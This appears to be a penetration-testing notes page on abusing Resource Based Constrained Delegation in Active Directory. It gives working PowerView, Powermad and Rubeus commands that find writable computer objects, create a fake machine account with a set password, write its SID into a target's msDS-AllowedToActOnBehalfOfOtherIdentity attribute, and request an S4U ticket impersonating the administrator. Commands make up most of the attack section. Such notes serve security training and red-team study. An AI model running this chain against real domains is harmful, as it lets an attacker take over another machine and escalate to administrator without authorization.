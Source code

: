 # Resource Based Constrained Delegation \(RBCD\)

## Resource Based Constrained Delegation \(RBCD\)

RBCD needs to happen from a computer account or a service account with a SPN.  
  
Attack can be done if a frontend service has a SID configured into the msDS- AllowedToActOnBehalfOfOtherIdentity property backend service.  
  
  
**msDSAllowedToActOnBehalfOfOtherIdentity** property controls delegation from the backend service  
  
To turn RBCD on, we need to write the SID frontend into a new propriety of the backend service.  
  
 → SeEnableDelegationPrivilege permissions are not required  
 → RBCD can typically be configured by the backend service administrator instead  
 → the frontend service must have an SPN set in the domain &gt; Computer Account  
  
  
S4U2Self forwardable TGS for any user to itself followed by S4U2Proxy to create a TGS for that user to the backend service.  
  
The KDC checks if the SID of the frontend service is present in the msDS-AllowedToActOnBehalfOfOtherIdentity property of the backend service.

### **Attack Path** 

* Compromise a domain account which have genericwrite on a computer account object.
* Add a new computer machine and force a password on it  \(user can add up to 10 computers by default\)

{% hint style="warning" %}
GenericAll, WriteProperty, GenericWrite or WriteDACL can be used to add change the SID on a computer object
{% endhint %}

Constrained Delegation Requirements :  
  
- Constrained Delegation = SPN on the frontend service \(msDSAllowedToDelegateTo propriety\)  
- SeEnableDelegationPrivilege priv

### Enumeration

#### Find GenericWrite access on a Computer Object

```csharp
 Get-DomainComputer | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

![](../../../../.gitbook/assets/image%20%28105%29.png)

#### Computer Domain Join 

```csharp
 Get-DomainObject -Identity badcorp.local  -Properties ms-DS-MachineAccountQuota
```

![](../../../../.gitbook/assets/image%20%28142%29.png)

### Create a new machine account

#### Load powermad

```csharp
New-MachineAccount -MachineAccount fakeComputer -Password $(ConvertTo-SecureString 'Password123' -AsPlainText -Force)
```

![](../../../../.gitbook/assets/image%20%28293%29.png)

![](../../../../.gitbook/assets/image%20%285%29.png)

msDS-AllowedToActOnBehalfOfOtherIdentity property stores the SID as part of a security descriptor in a binary format which needs to be converted.

```csharp
$sid =Get-DomainComputer -Identity fakeComputer1 -Properties objectsid | Select -Expand objectsid
```

![](../../../../.gitbook/assets/image%20%28257%29%20%281%29.png)

* Instantiate a SecurityDescriptor object using RawSecurityDescriptor Class:

```csharp
$SecDesc = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($sid))"
```

![](../../../../.gitbook/assets/image%20%28102%29.png)

* convert it into a byte array to match the format for the msDS-AllowedToActOnBehalfOfOtherIdentity property:

```csharp
$sdFormat = New-Object byte[] ($SecDesc.BinaryLength)
$SecDesc.GetBinaryForm($sdFormat,0)
```

#### Abuse GenericWrite on the target server

```csharp
 Get-DomainComputer -Identity targetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$sdFormat}
 $RBCD  = Get-DomainComputer targetComputer -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity
 $Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RBCD, 0
 $Descriptor.DiscretionaryAcl
```

![](../../../../.gitbook/assets/image%20%28118%29.png)

### Get a TGS using the fakeComputer account

#### Rubeus

```csharp
.\Rubeus.exe hash /password:Password123
.\Rubeus.exe s4u /user:fakeComputer /rc4:58A478135A93AC3BF058A5EA0E8FDB71  /impersonateuser:administrator /msdsspn:CIFS/targetServer.test.lab.local /ptt
```

![](../../../../.gitbook/assets/image%20%28246%29.png)

### Resources

{% embed url="https://github.com/Kevin-Robertson/Powermad" %}

{% embed url="https://github.com/GhostPack/Rubeus" %}







